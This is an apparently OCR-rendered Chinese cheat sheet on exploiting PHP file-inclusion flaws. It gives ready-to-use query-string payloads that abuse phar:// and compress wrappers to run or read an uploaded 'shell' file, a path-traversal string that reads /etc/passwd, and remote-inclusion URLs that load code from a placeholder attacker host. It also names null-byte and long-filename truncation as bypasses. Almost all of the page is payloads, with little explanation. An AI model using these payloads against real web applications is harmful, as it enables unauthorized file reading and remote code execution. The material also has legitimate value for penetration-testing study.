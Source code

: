 - phar://

  读取压缩包内的文件，如果文件内包含php代码则直接执行（默认不开启）

  > allow url fopen=off/on
  >
  > allow url include=off/on

  ```
  ?file=phar://shell.jpg/shell.txt
  ```

- compress.bzip2://

  读取bz2文件内的内容

  > allow url fopen=off/on
  >
  > allow url include=off/on

  ```
  bzip2 -k shell.txt  #将文件压缩为bz2文件（压缩并保留源文件）
  ?file=compress.bzip2://shell.txt.bz2  #读取bz2文件内内容
  ```

- compress.zlib://

  读取压缩包内文件内容（默认不开启）

  > allow url fopen=off/on
  >
  > allow url include=off/on

  ```
  ?file=compress.zlib://shell.jpg#shell.txt  #读取压缩包内容
  ```

## 前缀限制绕过

> 有前缀限制则伪协议都无法使用

```
?file=../../../../../../../../etc/passwd
```

## 后缀限制绕过

- 远程包含

  ```
  ?file=http://xxx/xx.php?
  ?file=http://xxx/xx.php%23
  ```

## 前后缀限制绕过

只能使用00截断或者长文件名截断方式（windows或低版本php才可利用）
